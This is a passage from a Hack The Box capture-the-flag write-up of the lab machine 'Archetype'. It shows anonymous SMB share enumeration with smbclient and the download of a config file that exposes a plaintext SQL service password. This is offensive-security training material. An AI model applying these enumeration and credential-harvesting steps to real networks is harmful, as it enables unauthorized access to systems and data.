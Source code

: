 ~~~Bash
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.14 seconds
~~~

### Open Ports/Services Found
445/tcp - SMB  
1433/tcp - SQL

### SMB
I attempted to access SMB with anonymous user access.
~~~Bash
┌──(jessi㉿teatimesec)-[~/HTB/Archetype]
└─$ smbclient -N -L \\\\10.10.10.27\\

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
SMB1 disabled -- no workgroup available
~~~

The **backups** share looked interesting, so I decided to take a look inside. Inside of the share, I found a file called **[prod.dtsConfig](https://github.com/jessisec/ctf-writeups/blob/main/HackTheBox/Archetype/prod.dtsConfig)**, so I decided to download it for further inspection.
~~~Bash
┌──(jessi㉿teatimesec)-[~/HTB/Archetype]
└─$ smbclient -N \\\\10.10.10.27\\backups
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon Jan 20 07:20:57 2020
  ..                                  D        0  Mon Jan 20 07:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 07:23:02 2020

                10328063 blocks of size 4096. 8259126 blocks available
smb: \> get prod.dtsConfig
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (6.1 KiloBytes/sec) (average 6.1 KiloBytes/sec)
~~~

Inside of the file, I found some credentials.
~~~Bash
┌──(jessi㉿teatimesec)-[~/HTB/Archetype]
└─$ cat prod.dtsConfig 
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
~~~
#### Found Credentials
Username: ARCHETYPE\sql_svc  
Password: M3g4c0rp123
  